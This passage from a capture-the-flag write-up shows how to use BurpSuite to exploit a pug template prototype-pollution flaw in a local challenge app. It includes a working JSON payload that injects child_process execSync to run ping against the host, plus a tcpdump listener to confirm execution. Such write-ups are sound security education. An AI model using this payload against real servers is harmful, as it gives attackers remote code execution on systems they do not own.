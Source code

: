 ### BurpSuite (Manual Method)

The BurpSuite method is the simplest one, we fire up Burp turn on the Proxy Intercept, open up the inbuilt browser and capture the request to the `/api/submit` endpoint, which initially looks something like this:

```bash
POST /api/submit HTTP/1.1
Host: localhost:1337
Content-Length: 22
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:1337
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=qzlEeMamvRr5owgNVW2A4pHZTRiJ5S2vujjIY4srRA7p4QbZ8BxKL9D3OkP1
Connection: close

{"artist.name":"blah"}
```

From the source code we know we need to use either `Westaway`, `Haigh`, or `Gingell` as names to trigger a positive response from the application, and we know that the `pug.compile` function is only occuring when the application returns that positive response as we've seen it in the code `challenges/routes/index.js` (line 16)

We've already figured out that the `pug` package is vulnerable and extracted the exploit we want to use, all we have to do is modify it to our purposes, with the known caveat that we have to make the application give a positive response:

```json
{
	"artist.name":"Haigh","__proto__.block": {
	"type": "Text", 
	"line": "process.mainModule.require('child_process').execSync(`ping -c 3 172.17.0.1`)"
	}
}
```

If we replace the `{"artist.name":"blah"}` from the previous request with the one above we should be able to ping our host machine.

Setup a listener with `tcpdump` *then* fire off the payload

```bash
# Capture ICMP traffic on docker0 interface
sudo tcpdump icmp -i docker0
```
